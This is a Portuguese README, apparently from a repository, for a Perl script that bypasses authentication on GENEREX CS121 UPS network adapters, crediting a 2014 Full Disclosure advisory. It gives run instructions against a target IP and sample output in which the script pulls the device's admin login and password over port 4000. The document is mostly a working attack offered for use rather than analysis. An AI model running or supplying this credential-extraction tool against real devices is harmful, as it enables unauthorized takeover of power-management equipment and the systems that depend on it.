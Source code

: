 # Autenticação Bypass do CS121 da GENEREX
 - Este procedimento foi feito com base do CL121BL,B e F da CM comandos na versão HynetOS 5.XX:  
 -  Os créditos são totalmente do JKMAC da seclists.org:  
 https://seclists.org/fulldisclosure/2014/May/75  


 ## Utilização:
 - Dê permissão de executavel no arquivo sockets121.pl:  
 
 ```bash

 chmod +X sockets121.pl
```

 - A sintaxe do script é ./sockets121.pl (IP), **ex: ./sockets121.pl 192.168.10.10**  
  O processo leva cerca de 10 minutos,caso não apresente o login e senha execute novamente que aparecerá as informações:

 ```bash

./sockets121.pl  192.168.10.10

UPS: <VERSION> CS124-16M32M, ROM-Version: 2.5.X(pduc) - Aug 27, 2010 

Target system parameters (current):
Default Protocol : TCP/IP
Default Driver   : Ethernet
Mac address      : 00-03-05-00-00-00
IP address       : 192.168.10.10
Net Mask         : 255.255.255.0
Default Gateway  : XX.XX.XX.XX
DHCP             : 0.0.0.0
DNS              : 0.0.0.0
Port for tools   : 4000


Localizando login ... 
USER: admin, PASS: hg478wegzsu, ACCOUNT: none

```
